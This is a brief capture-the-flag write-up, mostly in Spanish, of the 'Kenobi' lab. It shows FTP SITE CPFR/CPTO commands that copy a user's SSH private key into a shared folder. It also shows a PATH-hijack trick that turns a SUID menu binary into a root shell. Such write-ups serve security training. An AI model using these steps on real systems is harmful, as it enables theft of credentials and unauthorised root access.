





# NMAP

# SMB
Listamos directorios compartidos

Entramos en el usuario y descargamos el fichero ``log.txt``

# FTP

Searchsploit para buscar exploits en una version de un software

Vimos que la carpeta ``/var`` estaba compartida. Movemos la clave privada a la carpeta.

    SITE CPFR /home/kenobi/.ssh/id_rsa

    SITE CPTO /var/tmp/id_rsa

Montamos la carpeta en nuestro equipo

Cambiamos los permisos del ``id_rsa``

    sudo chmod 600 id_rsa

# SSH

Entramos en ssh con la clave privada

Buscamos carpetas con permisos

Vemos los permisos de la ruta

    ls -la /usr/bin/menu

Podemos ejecutarlo con

    /usr/bin/menu

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

    kenobi@kenobi:/tmp$ echo /bin/sh > curl
    kenobi@kenobi:/tmp$ chmod 777 curl 
    kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH

    /usr/bin/menu   ->  op1

